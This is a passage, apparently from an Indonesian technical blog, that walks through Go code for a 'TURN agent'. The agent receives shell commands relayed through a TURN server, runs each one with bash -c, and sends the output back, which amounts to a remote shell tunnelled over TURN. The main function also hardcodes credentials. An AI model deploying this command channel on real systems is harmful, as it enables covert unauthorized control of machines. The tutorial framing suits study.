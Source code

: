 Pada kode program di atas, saya menjalankan *for loop* tanpa henti yang akan menunggu datangnya *packet* `Data Indication`.  Bila menemukannya,
ia akan melewatkan data yang diterima ke *function* `handler`.  Hasil kembalian dari *function* `handler` kemudian dipakai untuk
membuat *packet* `Send Indication` (`0x0016`).  Sama seperti `Data Indication`, pesan `Send Indication` hanya mengandung atribut `XOR-PEER-ADDRESS` 
dan `DATA` (tanpa *long term authentication*).  `Send Indication` digunakan agar TURN server dapat mengirim nilai yang tertera di atribut
`DATA` ke *peer* di alamat yang tertera di `XOR-PEER-ADDRESS`.  Untuk membuat *packet* STUN-nya, saya bisa menggunakan kode program
seperti berikut ini:

```golang
func NewSendIndication(targetIP []byte, targetPort uint16, data []byte) *Message {
	result := &Message{
		Header: MessageHeader{
			MessageType:   Send,
			MessageLength: 0,
			MagicCookie:   MagicCookie,
			TransactionId: [3]uint32{rand.Uint32(), rand.Uint32(), rand.Uint32()},
		},
	}
	result.Attributes = []MessageAttribute{
		CreateXorAddressAttribute(0x0012, targetIP, targetPort, result.GetBytes()[4:20]),
		CreateMessageAttribute(0x0013, data),
	}
	result.Header.MessageLength = uint16(len(result.GetBytes()) - 20)
	return result
}
```

Untuk implementasi *function* `handler`, saya bisa membuat sebuah *function* yang menerima perintah *shell*, mengerjakannya
melalui Bash dan mengembalikan *output* dari perintah tersebut seperti yang terlihat pada contoh kode program berikut ini:

```golang
func commandHandler(raw []byte) []byte {
	if len(raw) == 0 {
		return nil
	}
	command := string(raw)
	fmt.Printf("Executing command: %s\n", command)
	output, err := exec.Command("bash", "-c", command).Output()
	if err != nil {
		return []byte(err.Error())
	}
	return output
}
```

Struktur kode program utama saya akan terlihat seperti berikut ini:

```golang
func main() {
	fmt.Println("Welcome to TURN agent!")
	cred := new(stun.LongTermCred)
	cred.Username = "turn"
	cred.Password = "12345678"
	turnServerConnection, err := stun.InitializeTURN("ens5")
	if err != nil {
		fmt.Printf("Failed to initialize network: %s\n", err)
		return
	}
	go turnServerConnection.StartReceiving()
	allocation, err := turnServerConnection.Allocate(cred)
	if err != nil {
```